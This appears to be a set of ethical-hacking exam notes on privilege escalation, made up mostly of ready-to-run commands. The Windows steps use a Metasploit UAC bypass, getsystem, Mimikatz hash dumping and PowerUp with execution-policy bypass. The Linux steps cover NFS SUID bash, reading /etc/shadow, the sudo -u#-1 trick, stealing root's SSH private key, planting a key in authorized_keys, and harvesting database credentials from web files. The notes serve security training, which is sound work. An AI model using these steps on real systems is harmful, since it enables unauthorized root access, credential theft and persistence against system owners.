 ## System Hacking


### Escalate privileges
1. Windows
   1. Establish VNC session (windows)
      - Setup a reverse TCP shell then:
      - Run `sysinfo` to see system details
      - `upload /root/PowerSpoilt/Privesc/PowerUp.ps1` to upload a powershell script
      - `shell` to get a shell
      - In shell: `powershell -ExecutionPolicy Bypass -Command ". .\PowerUp.ps1; Invoke-AllChecks"` to run the powershell script
      - exit and get back to meterpreter
      - get remote access via VNC: `run vnc`
   2. Bypass UAC
      - Setup a reverse TCP shell and move to background
      - `>` `search bypassuac`
      - `>` `use exploit/windows/local/bypassuac_fodhelper`
      - `>` `show options`
      - Set `session=1`, `LHOST`, `LPORT`, `TARGET=0`
      - `>` `exploit`
      - In new meterpreter session: `>` `getsystem -t 1`
   3. Mimikatz
      - After getting a meterpreter session with bypass UAC:
        - `>` `load kiwi`
        - `>` `help kiwi`
        - view various hashes with dump commands
        - Change password: `>` `password_change -u <username> -n <current pw hash> -P <new password>`
2. Linux Privilege Escalation
   1. Horizontal privilege escalation
      - `sudo -l` to see which user can execute what commands as sudo without password
      - `sudo -u <user> <command>` to execute a command as another user
   2. Vertical privilege escalation
      1. Using NFS
         - `showmount -e <target ip>` to see the shared directories
         - `mkdir /tmp/<folder name>` to create a folder in tmp directory
         - `mount -t nfs <target ip>:/<shared directory> /tmp/<folder name>` to mount the shared directory
         - `cd /tmp/<folder name>` to go to the shared directory
         - `ls -la` to see the files in the directory
         - `cp /bin/bash .` to copy the bash file to the shared directory
         - `chmod +s bash` to change the permission of the bash file
         - Login as normal user via ssh
         - `cd <shared directory>`
         - `./bash -p` to get root access
         - `cp /bin/nano .` 
         - `./nano -p /etc/shadow` to show hashes of all users
      2. Using sudo command
         - `sudo -i` to get root access
         - `sudo -u#-1 <command>` to execute a command as root
         - `sudo -u#-1 /bin/bash` to get root access
         - `sudo -u#-1 /bin/sh` to get root access
      3. Using id_rsa private key
         - `cat /root/.ssh/id_rsa` to get the private key
         - create id_rsa file in local machine and paste the private key
         - `chmod 600 id_rsa` to change the permission of the file
         - `ssh -i id_rsa root@<target ip>` to login as the user
         - `whoami` to check the user
      4. Using your public key
         - `ssh-keygen` to generate a public key
         - `cat ~/.ssh/id_rsa.pub` to get the public key
         - `echo "<public key>" >> /root/.ssh/authorized_keys` to add the public key to the authorized_keys file
         - `ssh -i id_rsa root@<target ip>` to login as the user
         - `whoami` to check the user
      5. Using DB credentials obtained from php file in web server 
         - `cd /var/www/html`
         - `grep -nr "db_user"`
         - `cat file_name`
         - use credentials from file to login as root
      6. Others: users, groups, SUID, GUID, mounts, .sh scripts. cronjobs, etc.
3. Other priv escalation at: https://book.thegurusec.com/certifications/certified-ethical-hacker-practical/system-hacking#powersploit

